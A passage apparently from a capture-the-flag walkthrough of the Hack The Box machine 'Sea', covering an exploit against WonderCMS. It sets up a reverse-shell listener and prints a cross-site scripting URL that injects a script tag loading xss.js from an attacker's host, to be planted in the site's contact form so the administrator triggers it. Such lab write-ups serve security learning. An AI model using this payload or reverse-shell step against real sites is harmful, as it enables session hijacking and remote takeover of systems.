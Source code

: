 Now, run the exploit agaisnt the wondercms and let's have port 8001 set up as the reverse shell listener:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/sea/image-13.png)

Copy the link created above and attach it the website form so that the admin can read it when the form is sent:

```
http://sea.htb/wondercms?page=index.php"></form><script+src="http://10.10.14.63:8000/xss.js"></script><form+action="
```
